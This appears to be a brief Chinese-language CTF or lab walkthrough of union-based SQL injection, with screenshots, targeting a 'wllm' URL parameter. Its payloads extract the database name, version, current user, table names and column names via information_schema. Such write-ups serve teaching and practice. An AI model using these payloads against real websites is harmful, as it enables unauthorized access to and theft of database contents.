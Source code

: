 ```
/?wllm=-1%27union%20select%201,database(),version()--+
```

![image-20250731112810180](./assets/image-20250731112810180.png)

爆用户名

```
/?wllm=-1 ' union select 1, 2, user() -- '
```

![image-20250731112906423](./assets/image-20250731112906423.png)

爆表

```
/?wllm=-1 ' union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='test_db'-- '
```

![image-20250731113511057](./assets/image-20250731113511057.png)

爆列

```
/?wllm=-1 ' union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='test_tb' -- '
```
